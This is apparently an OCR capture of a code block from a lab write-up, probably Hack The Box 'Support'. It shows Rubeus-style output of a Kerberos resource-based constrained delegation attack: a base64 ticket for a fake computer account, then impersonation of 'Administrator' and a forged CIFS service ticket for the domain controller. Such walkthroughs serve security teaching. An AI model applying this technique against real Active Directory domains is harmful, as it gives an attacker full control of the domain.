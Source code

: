 ```bash
[*] base64(ticket.kirbi):

      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
      MA4bDEZBS0UtQ09NUDAxJA==

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
      MBYbBGNpZnMbDmRjLnN1cHBvcnQuaHRi
```